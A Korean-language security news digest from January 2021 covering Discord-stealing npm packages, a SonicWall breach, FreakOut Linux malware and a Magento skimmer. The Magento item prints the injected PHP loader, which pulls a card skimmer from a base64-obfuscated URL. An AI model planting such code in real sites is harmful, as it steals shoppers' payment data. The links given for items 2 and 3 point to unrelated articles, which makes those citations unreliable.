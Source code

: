 ## 보안동향 2021년 01월 25일  
   
    
### 1. Discord-Stealing Malware, npm 패키지 침입  
       
  
https://threatpost.com/discord-stealing-malware-npm-packages/163265/?web_view=true  
    
- CursedGrabber 맬웨어가 오픈 소스 소프트웨어 코드 저장소에 침투  
  
  
- JavaScript 개발자가 코드 블록을 공유하고 재사용 할 수있는 코드 저장소 인 npm에 3 개의 악성 소프트웨어 패키지가 게시  
  

- 코드에 의해 손상된 모든 애플리케이션은 Discord 사용자로부터 토큰 및 기타 정보를 훔칠 수 있다고 연구원들은 말함    
    
    
- Discord 토큰이 도난 당하면 공격자가 서버를 해킹 할 수 있음  

- 금요일부터 패키지 (이름이 an0n-chat-lib, discord-fix 및 sonatype, 모두 "scp173-deleted"에 의해 게시 됨)를 다운로드 할 수 있음    
  
- 11 월에 발견 된 CursedGrabber Discord 맬웨어 제품군은 Windows 호스트를 대상으로 했었음  
  
      
---
  
  
### 2. SonicWall은 자사 제품에서 제로 데이 공격에 해킹 당함  
   
   
https://threatpost.com/nvidia-gamers-dos-data-loss-shield-tv-bugs/163200/?web_view=true  
    
    
- 네트워킹 장치 제조업체 인 SonicWall은 금요일 밤 "coordinated attack"이라고 설명하는 것을 탐지 한 후 내부 네트워크의 보안 위반을 조사하고 있다고 밝힘  

- 회사는 **NetExtender** VPN 클라이언트 및  **SMA (Secure Mobile Access** ) 게이트웨이를 영향을받은 것으로 나열함  
  

- NetExtender VPN 클라이언트 버전 10.x (2020 년에 릴리스 됨)는 SMA 100 시리즈 어플라이언스 및 SonicWall 방화벽에 연결하는 데 사용  
    
    - SMA 200, SMA 210, SMA 400, SMA 410 물리적 어플라이언스 및 SMA 500v 가상 어플라이언스에서 실행되는 SMA (Secure Mobile Access) 버전 10.x.  
  

- SonicWall은 특정 제품 시리즈가 NetExtender와 다른 VPN 클라이언트를 사용하고 있기 때문에 새로운 SMA 1000 시리즈는 영향을받지 않는다고 말했음  
  

- 고객의 네트워크를 안전하게 유지하기 위해 공급 업체는 지식 기반 문서에 방화벽을 배포하여 SMA 장치와 상호 작용할 수있는 사용자를 제한하거나 NetExtender VPN 클라이언트를 통해 방화벽에 대한 액세스를 비활성화하는 것과 같은 일련의 완화 조치를 포함
     

---
  
  
### 3. Linux 장치를 대상으로하는 새로운 FreakOut 맬웨어  
           

https://www.bleepingcomputer.com/news/software/vlc-media-player-3012-fixes-multiple-remote-code-execution-flaws/?&web_view=true

   
   
- 새로 발견 된 FreakOut 이라는 악성 코드 가 Linux 기반 장치를 적극적으로 표적으로 삼고 있음  
    

- 이 악성 코드의 목적은 DDoS 공격 및 암호화 채굴을 위해 봇넷 네트워크를 전파하는 목적  
    

- 1 월 8 일부터 1 월 13 일까지 약 380 번의 공격 시도가 관찰됨  

이 새로운 악성 코드는 포트 스캐닝, 정보 수집, 데이터 패킷 및 네트워크 스니핑과 같은 다양한 기능을 제공  
  
감염된 각 장치를 원격 제어 공격 플랫폼으로 사용할 수 있음  
  
- 처음에 악성 코드는 다양한 결함과 취약점이 패치되지 않은 특정 제품이있는 Linux 장치를 대상  
    - 악용되는 결함으로는 CVE-2020-28188 (TerraMaster TOS), CVE-2021-3007 (Zend Framework) 및 CVE-2020-7961 (Liferay Portal)이 있음  
  

---
  
  
### 4. Magento PHP 주입으로 JavaScript 스키머로드  
           

https://blog.sucuri.net/2021/01/magento-php-injection-loads-javascript-skimmer.html?web_view=true  
   
조사 결과 웹 사이트에 Magento 파일 중 하나에 PHP 삽입이 포함되어 있음을 발견함

**./app/code/core/Mage/Payment/Model/Method/Cc.php**

```
. . . if  ( $ _SERVER [ " REQUEST_METHOD " ]  ===  " GET " ) { if  ( strpos ( $ _SERVER [ " REQUEST_URI " ] ,  " / onestepcheckout / index / " )  ! ==  false ) { if ( ! isset ( $ _COOKIE [ " adminhtml " ] ) ) { 
                      echo file_get_contents( base64_decode ( " aHR0cHM6Ly91bmRlcnNjb3JlZndbLl1jb20vc3JjL2tyZWEuanM = " ) ) ; } } }
```

- 감지하기 더 어렵게 만들기 위해 JavaScript 스키머는 PHP 함수 **file_get_contents** 및 **base64로** 난독 화 된 URL을 사용하여로드 됨  
  
  
- 스키머는 방문자가 결제 페이지에 있고 방문자가 관리자 로 Magento 웹 사이트에 로그인 **하지 않은** 경우 두 가지 조건이 충족 될 때만 로드됨  
    - PHP 코드는 방문자가 요청한 URI에서 strpos로 " / onestepcheckout / index / " 텍스트 문자열을 찾아 이러한 조건을 확인  
    - 또한 방문자가 관리자로 Magento 웹 사이트에 로그인했는지 여부를 나타내는 **adminhtml** 쿠키 가 방문자에게 있는지 확인   
